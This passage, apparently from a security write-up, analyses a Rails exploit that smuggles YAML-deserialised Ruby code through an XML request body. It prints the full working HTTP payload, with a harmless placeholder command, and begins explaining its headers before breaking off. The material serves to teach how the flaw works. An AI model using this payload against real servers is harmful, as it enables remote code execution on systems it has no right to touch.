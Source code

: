 Result
------  

### Analysis

#### Analysis of exploit

Our final exploit payload looks like this in its entirety:

    POST / HTTP/1.1
    Content-Type: text/xml
    X-Http-Method-Override: get
    Accept: */*
    Host: localhost:3000
    Content-Length: 406
    
    <?xml version="1.0" encoding="UTF-8"?>
    <exploit type="yaml">
    --- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection
    ? |
      foo; (puts 'Fire the missiles!'; @executed = true) unless @executed
      __END__
    : !ruby/struct
      defaults:
        :action: create
        :controller: foos
      required_parts: []
      requirements:
        :action: create
        :controller: foos
      segment_keys:
        - :format
    </exploit>
{: .language-http}

We will now make sense of it by picking it apart and analyzing the individual components.

First off, we see that we are dealing with a `POST`-request, with the exploit
payload contained in the body. The payload is meant to be parsed as `XML`, which
is the reason for the content-type header:

    Content-Type: text/xml
{: .language-http}

By default, Rails does not handle `POST`-requests unless explicitly told so on a
specific route. This means that our payload will not be parsed unless we can
find a route on the server that accepts `POST` requests. Although this might not
be hard on most servers, we can make it even easier by simply overriding the
POST request to be handled as a GET request. This is the reason for the header:

    X-HTTP-Method-Override: GET
{: .language-http}

Our payload in the request body is an `XML`-document consisting of one
`<exploit>` tag. By adding a type property, we can make Rails delegate the
content of this tag tag to its `YAML`-parser: 
